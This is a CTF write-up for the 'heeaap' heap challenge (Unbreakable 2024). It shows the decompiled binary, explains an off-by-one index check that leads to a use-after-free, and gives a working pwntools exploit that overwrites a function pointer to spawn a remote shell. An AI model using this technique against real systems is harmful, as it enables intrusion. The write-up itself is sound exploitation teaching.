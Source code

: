 ```yaml
---
title: heeaap
date: 2024-04-07T14:23:28+03:00
description: Writeup for heeaap [Unbreakable 2024]
author: sunbather
tags:
- pwn
- heap
draft: false
---
```

___

## Challenge Description

Since strground was "too hard"...

## Intuition

We get a classic, easy heap challenge, with a UAF bug. Two different kind of structures are allocated on the heap, one of 64 bytes and one of 72. From each of them, we control the first 52, respectively 60 bytes. At the end of each, a function pointer for a print function is being assigned. We also have a win function in the binary, that simply calls ``system("/bin/sh")``. Cleaned up main function below:

```c
void main(void)
{
  long lVar1;
  ctf_struct *ptr;
  desc_struct *pdVar2;
  long in_FS_OFFSET;
  undefined4 menu_opt;
  int print_idx;
  long details [7];
  uint idx;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  do {
    if ((3 < (int)i) || (3 < (int)j)) {
      if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
      }
      return;
    }
    puts("--------------------------");
    puts("1. Create new ctf");
    puts("2. Create ctf description");
    puts("3. Delete ctf");
    puts("4. Delete description");
    puts("5. Print ctf && description");
    puts("--------------------------");
    fwrite("Choose: ",1,8,stdout);
    __isoc99_scanf("%d",&menu_opt);
    switch(menu_opt) {
    default:
      puts("Not a choice");
      exit(0);
    case 1:
      if ((int)j < (int)i) {
        puts("You need to create a description for every ctf!");
        exit(0);
      }
      details[0] = 0;
      details[1] = 0;
      details[2] = 0;
      details[3] = 0;
      details[4] = 0;
      details[5] = 0;
      details[6] = details[6] & 0xffffffff00000000;
      fwrite("Enter ctf details: ",1,0x13,stdout);
      read(0,details,0x34);
      idx = i;
      ptr = (ctf_struct *)malloc(0x40);
      ctfs[(int)idx] = ptr;
      ptr = ctfs[(int)i];
      *(long *)ptr->description = details[0];
      *(long *)(ptr->description + 8) = details[1];
      *(long *)(ptr->description + 0x10) = details[2];
      *(long *)(ptr->description + 0x18) = details[3];
      *(long *)(ptr->description + 0x20) = details[4];
      *(long *)(ptr->description + 0x28) = details[5];
      *(undefined4 *)(ptr->description + 0x30) = (undefined4)details[6];
      ctfs[(int)i]->print_func = print_current_ctf;
      printf("\nCtf created at index: %d\n",(ulong)i);
      i = i + 1;
      break;
    case 2:
      if ((int)i < (int)j) {
        puts("You need to create a ctf for every description!");
        exit(0);
      }
      details[0] = 0;
      details[1] = 0;
      details[2] = 0;
      details[3] = 0;
      details[4] = 0;
      details[5] = 0;
      details[6] = 0;
      fwrite("Enter ctf description: ",1,0x17,stdout);
      read(0,details,0x3c);
      idx = j;
      pdVar2 = (desc_struct *)malloc(0x48);
      descriptions[(int)idx] = pdVar2;
      pdVar2 = descriptions[(int)j];
      *(long *)pdVar2->details = details[0];
      *(long *)(pdVar2->details + 8) = details[1];
      *(long *)(pdVar2->details + 0x10) = details[2];
      *(long *)(pdVar2->details + 0x18) = details[3];
      *(long *)(pdVar2->details + 0x20) = details[4];
      *(long *)(pdVar2->details + 0x28) = details[5];
      *(long *)(pdVar2->details + 0x30) = details[6];
      *(undefined4 *)(pdVar2->details + 0x38) = 0;
      descriptions[(int)j]->print_desc = print_ctf_description;
      printf("\nDescription created at index: %d\n",(ulong)j);
      j = j + 1;
      break;
    case 3:
      if (i == 0) {
        puts("No ctfs created yet.");
        exit(0);
      }
      i = i - 1;
      free(ctfs[(int)i]);
      puts("\nDeleted ctf.\n");
      break;
    case 4:
      if (j == 0) {
        puts("No descriptions created yet.");
        exit(0);
      }
      j = j - 1;
      free(descriptions[(int)j]);
      puts("\nDeleted description.\n");
      break;
    case 5:
      if ((i == 0) || (j == 0)) {
        puts("No ctf or description.");
        exit(0);
      }
      fwrite("Select index: ",1,0xe,stdout);
      __isoc99_scanf("%d",&print_idx);
      if ((((int)i < print_idx) || ((int)j < print_idx)) || (print_idx < 0)) {
        puts("Not allowed");
        exit(0);
      }
      (*(code *)ctfs[print_idx]->print_func)(ctfs[print_idx]);
      (*(code *)descriptions[print_idx]->print_desc)(descriptions[print_idx]);
    }
  } while( true );
```

We created the structures in Ghidra struct editor so the decompilation is easier to read. The essential bug is at case 5, when we use the print functions stored in the function pointers. Notice how case 5 checks if the index we are requesting to print is bigger (strictly) than the current i, which should be the last position where a CTF + description combo is found. However, this is not actually true, ``i`` and ``j`` are the indices of the next free spots. Which means, by requesting exactly ``i`` or ``j`` we can print CTFs or descriptions that do not actually exist in our array.

In our case, if we free a CTF or a description and then allocate another one, the glibc heap allocator will reuse the one we've just freed. That, combined with bad input validation on case 5, will let us execute a Use-After-Free. We can, in theory, allocate the smaller structure (CTF), free it and then allocate the bigger structure. Since we control 60 bytes of the bigger structure, we can overwrite 8 bytes at the end of the first structure. Sadly, 4 bytes of the overwritten ones are structure padding, but we can still overwrite 4 bytes least significant bytes of the function pointer for the smaller structure. Which is great, because in little endian with no PIE, that’s all we need to overwrite it.

So the plan is:
1. Allocate dummy CTF & description (to bypass the print check: ``if ((i == 0) || (j == 0))`` )
2. Allocate CTF
3. Free CTF
4. Allocate description for which the last 4 bytes are the address of the win function
5. Print CTF with index 1

When we hit the last step, the line ``(*(code *)ctfs[print_idx]->print_func)(ctfs[print_idx]);`` will call the overwritten win function, giving us a shell.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./heap")
target = remote("35.234.88.19", 32668)
win_addr = 0x004012db

def create_ctf(details):
    target.sendline(b"1")
    target.send(details)

def create_desc(description):
    target.sendline(b"2")
    target.send(description)

def delete_ctf():
    target.sendline(b"3")

def delete_desc():
    target.sendline(b"4")

def print_ctf(index):
    target.sendline(b"5")
    target.sendline(str(index).encode())

create_ctf(b".hidden" + b"a" * 45)
create_desc(b"d" * 60)

create_ctf(b"a" * 52)
delete_ctf()
create_desc(b"d" * 56 + p32(win_addr))

print_ctf(1)
target.interactive()
```
